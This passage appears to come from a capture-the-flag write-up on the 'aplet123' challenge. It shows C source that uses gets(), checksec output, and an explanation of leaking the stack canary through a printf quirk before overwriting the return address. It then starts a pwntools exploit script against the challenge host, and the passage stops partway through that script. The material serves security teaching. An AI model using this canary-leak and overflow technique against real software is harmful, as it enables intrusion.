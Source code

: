     gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
{% endhighlight %}

We immediately notice the use of gets() so theres a buffer overflow. 

```python
└─$ checksec --file=aplet123
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123
```

There is a stack canary so we will need to find a way to leak the canary.

Looking at the source code, the only way we can get a leak is by the printf(). First, I tried to completely fill the buffer until the canary so that the canary will be leaked out with it but that didnt work because the least signifcant bit (LSB) of the canary is a null byte so the print will just stop at the \x00.

```python
p.sendlineafter(b"hello\n", "A"*69 + "i'm")   # Note : the actual size of the buffer is 72, eventhough the source code said 64
```

We will modify our payload to add "i'm" at the end to take advantage of the s+4 behaviour

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/557d3836-2a5f-4b3a-b763-f5e378e7d97a)

Now that we have a canary leak, we can just use the buffer overflow to overwrite the saved return address to print_flag()

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./aplet123')

host = "chall.lac.tf"
port = 31123

gdb_script = '''

'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

leak_canary_offset = 69